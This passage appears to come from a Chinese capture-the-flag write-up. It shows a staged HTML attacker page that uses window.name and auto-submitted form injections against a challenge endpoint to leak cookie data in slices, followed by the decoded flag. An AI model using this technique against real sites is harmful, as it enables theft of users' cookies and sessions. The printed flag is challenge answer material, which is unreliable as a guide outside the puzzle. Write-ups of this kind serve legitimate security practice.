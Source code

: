 下面是HTML代码：
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
</head>
<body>
<form action="http://web/result" method="post">
    <input id="flag" name="comment" type="text"/>
    <input id="submit" type="submit" value="提交"/>
</form>


<script>
    const stage = new URLSearchParams(window.location.search).get('stage');

    // 第一阶段，设置自己的name为cookie
    if (stage === "1") {
        window.name = "cookie";
        document.getElementById("flag").value = `"[name=document[name]]+"`;
        document.getElementById("submit").click();
    }

    // 第二阶段，将当前的name提交到服务器
    if (stage === "2") {
        const data = btoa(window.name); // 76
        document.getElementById("flag").value = data.slice(50, 75);
        document.getElementById("submit").click();
    }

    // 第零阶段，作为宿主页面，新开一个窗口，展示stage=1的页面
    if (!stage) {
        let newWindow = window.open(location.href + "?stage=1");
        setTimeout(() => {
            newWindow.location.replace(location.href + "?stage=2")
        }, 1000)
    }
</script>
</body>
</html>


EOF
```

最后拼接出来的flag用`urllib.parse.unquote_plus`去转义，便可以拿到flag。

`flag{x55_still_alive&=>_< _a765e18e3c}`